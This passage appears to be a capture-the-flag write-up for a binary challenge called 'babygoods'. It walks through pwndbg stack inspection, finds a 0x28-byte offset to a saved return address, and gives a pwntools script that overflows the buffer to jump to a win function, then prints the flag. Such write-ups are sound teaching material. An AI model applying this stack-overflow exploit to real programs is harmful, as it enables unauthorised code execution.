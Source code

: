 I have omitted the irrelevant portions of the output.

After setting the breakpoint, we can run the application with `r`, and place our inputs normally. When we reach our breakpoint, we would see the following on the stack:
```
pwndbg> x/20x $rsp
0x7fffffffe290: 0xffffe2f0      0x00007fff      0xffffe418      0x00000031
0x7fffffffe2a0: 0x64636261      0x00000000      0x00403e18      0x00000000
0x7fffffffe2b0: 0xf7ffd040      0x00007fff      0xf7dca654      0x00000001
0x7fffffffe2c0: 0xffffe2f0      0x00007fff      0x004013e4      0x00000000
0x7fffffffe2d0: 0x00000000      0x00000000      0x004040a0      0x00000000
```

We can see our input on the stack, and since PIE is disabled, the addresseses beginning with `0x40..` would be our potential targets for overriding. Examining each `0x40..` address, we eventually see this in `0x004013e4`:
```
pwndbg> x 0x004013e4
0x4013e4 <menu+186>:    0x8d481beb
```

It points back to `menu()`, to a line that is after the `buildpram()` call. This means that if we override this address and place our desired address (in this case, the address of our winning function `sub_15210123()`), we would be able to redirect our program execution flow to execute the winning function.

From the start of our input, we can see that there are `0x28` bytes from the start of our input until our target, which means that our padding offset in this case would be `0x28`.

We can automate the progress with `pwntools`.
```py
#!/usr/bin/env python

from pwn import *

# set context binary, context log_level
elf = context.binary = ELF("./distribution/babygoods")
# context.log_level = 'debug'

# Start process
p = process("./distribution/babygoods", stdin=process.PTY, stdout=process.PTY)

# Binsh function
binsh = p64(0x401216)
payload = flat({0x28: binsh})

# Easy bof
p.sendlineafter(b': ', "pwn")
p.sendlineafter(b':', "1")
p.sendlineafter(b':', "1")
p.sendlineafter(b':', payload)
p.interactive()
```

Flag: `grey{4s_34sy_4s_t4k1ng_c4ndy_fr4m_4_b4by}`

